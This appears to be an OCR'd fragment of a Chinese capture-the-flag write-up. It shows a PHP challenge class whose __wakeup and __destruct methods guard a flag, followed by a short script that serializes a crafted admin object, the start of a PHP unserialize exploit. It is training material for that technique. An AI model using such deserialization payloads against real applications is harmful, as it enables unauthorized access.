 class.php

```assembly
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

执行

```assembly
<?php

$name = new Name('admin', 100);
echo(serialize($name));
```
